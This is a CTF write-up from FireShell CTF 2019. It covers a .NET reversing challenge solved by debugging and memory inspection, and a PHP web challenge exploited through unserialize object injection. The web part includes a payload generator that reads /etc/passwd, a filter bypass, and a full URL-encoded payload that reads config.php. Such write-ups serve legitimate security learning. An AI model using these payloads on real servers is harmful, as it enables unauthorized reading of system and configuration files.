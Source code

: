 # FireShell CTF 2019

## RE - BlackBox Cypher

Task :

![](.gitbook/assets/image%20%28131%29.png)

It's .Net file so we put it in dnspy

![](.gitbook/assets/image%20%28142%29.png)

Oops...obfuscated, try to clean it with de4dot

![](.gitbook/assets/image%20%28110%29.png)

Better, but still fucking so heavy. It's quite easy to know that the file work/obfuscated like this :

It created 100+ junk class, each have few function \(2-6 func\) and call to each other

Sounds pain in the ass, right?

Also, the challenge name is "Blackbox Cipher", so i assume that i dont even need to understand the algorithm behind it.

So i trying to run the binary, dump it and search for string in memory.

But where to stop to dump? Well, there is no other way around, you must debug the application to see where it generate the crypted flag.

![](.gitbook/assets/image%20%28162%29.png)

As you can see, after navigate through the code for a while, i realize the result is my encoded flag, where it's only assigned at

```text
result = Class9.smethod_1(null, type).vmethod_3(this.method_149()).vmethod_0();
```

Now i know that somehow it calculate encoded flag in those method, which mean it init flag somewhere in that too.

So there is 2 ways to solve this problem at this moment :

1. You keep debugging through these code and search through memory too.
2. You just now dump the memory, base64\("F\#{"\) and search in memory

Both work well,  i checked after ctf end, but when the ctf is running, i choose first one, because :

1. I dont know flag format since i havent read rules page...oops!
2. I am afraid that it will some where delete the flag out of memory before it return the encoded flag or maybe it can split flag into many method, and receive few bytes from each, null it after used immediately

After 15 minutes of pressing F11, i finally got

![](.gitbook/assets/image%20%28168%29.png)

Base64 decode it, we got flag

```text
F#{It's_all_about_memory_forensics}
```



## Web - Vice

Task :

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}
if(isset($_GET["gg"])) {
    @unserialize($_GET["gg"]);
} else {
    highlight_file(__FILE__);
}
```

I was trying to solve Boring Check, but then our team rank is down quickly to 3rd, and we must solve one more chall to keep our rank, compete with @bi0s for 3rd place. Time to call help from home.

![](.gitbook/assets/image%20%2837%29.png)

From @Thach works, we finally can craft the payload and read file base on php unserialize bug



```php
//Credit : Thach Nguyen Hoang
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    echo $this->host;
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          echo $ext;
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      /* echo $result; */
    }else{
      die(":)");
    }
  }
  
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}


$o = new SHITS('doit', 'file:///etc/passwd');
echo urlencode(serialize($o));
```

What next? Where is flag?

```text
//require_once 'config.php';
```

There is commented line on challenge source. But it have '.' inside file name, which is filtered. So to bypass strpos\(\), we use urlencode, and guess the path to config.php, which is :

```text
/var/www/html/config%2ephp
```

Final payload

```text
view-source:http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D
```

Flag

```text
F#{wtf_5trp0s_}
```



## Last words

We end up at 3rd place. Time to practice more...

![](.gitbook/assets/image%20%28135%29.png)

